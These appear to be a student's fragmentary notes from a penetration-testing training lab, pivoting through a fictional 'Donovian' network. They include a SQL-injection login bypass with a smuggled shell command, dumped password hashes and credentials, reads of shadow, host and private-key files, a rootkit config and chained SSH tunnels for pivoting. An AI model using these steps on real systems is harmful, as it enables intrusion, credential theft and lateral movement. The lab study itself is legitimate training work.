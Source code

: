 Target Section:

T1
Hostname: Donovian_Extranet
IP: 192.168.28.100
OS: CentOS
Creds:Unknown
Last Known SSH Port: 2222
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T3
Hostname: unknown
IP: x.x.x.9
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Gain access; survey host and map Donovian internal Cyberspace.



make a tunnel to port 80
open firefox
/admin/admin.php
sql injection
un: admin
pw: ' OR '1'='1
; ls -lisa /x/x/x/

cat /etc/hosts
see intranet is 192.168.150.253

Host is up (0.0018s latency).
Not shown: 9997 closed ports
PORT     STATE SERVICE
80/tcp   open  http
514/tcp  open  shell
3201/tcp open  cpq-tasksmart ssh !!!!!!!!!!!

root:$6$V9apEU0x$cKDuPz59hBr48Qj6mnL0w5nuEddjzNEoHqfVY2pKs4VqqHqarZ1F9nCIaOsk7NvqIKrybd6OFFSnQXMjoT4aO1:19481:0:99999:7:::
ubuntu:!:19481:0:99999:7:::
comrade:$6$TWu7qH0m$CX3CNvgib3ksGe6TxlHWjKiM3AE.Azur7lGtCU2QZJlBb2Do3YBjswJ0Zy2q9.xc2sJEofW38lJuGU1uLcInU1:19481:0:99999:7:::
#F1aG = FDxVuQ3RCdXQvDlQI4bM

comrade::StudentMidwayPassword



comrade@lin:~$ sudo cat /root/brootkit/brootkit-master/br.conf


comrade@lin:~$ cat /usr/share/terminfo/b/beacon | openssl enc -d -base64 -aes-128-ctr -nopad -nosalt -k password.txt
??


   85  cat /etc/rkhunter.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 


student@lin-ops:~/Desktop/Security$ ssh -MS /tmp/gray student@10.50.36.239
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1460:192.168.28.100:2222
student@lin-ops:~$ ssh -MS /tmp/www-datahost www-data@0.0.0.0 -p 1460



student@lin-ops:~$ ssh -S /tmp/www-datahost www-data -O forward -L 1463:192.168.150.253:3201
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1461:192.168.28.100:80
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -D9050


student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1470:192.168.28.105:2222
student@lin-ops:~$ ssh -MS /tmp/orange comrade@0.0.0.0 -p 1470
student@lin-ops:~$ ssh -S /tmp/gray gray -O cancel -D9050
student@lin-ops:~$ ssh -S /tmp/orange orange -O forward -D9050


comrade@lin:~$ sudo tcpdump -i ens3 -XXvvn 'not port 3201'


main ms



![image](https://github.com/hannahsfrommt/Security/assets/140441321/931711e5-1567-49c3-8fb6-711f3826f61d)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/b641be6c-fcd2-459d-851e-38f98a6bb487)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/048e78fd-d4ae-4606-bd47-b4cf4329c25a)




student@lin-ops:~$ cat /tmp/.ssh/id_rsa
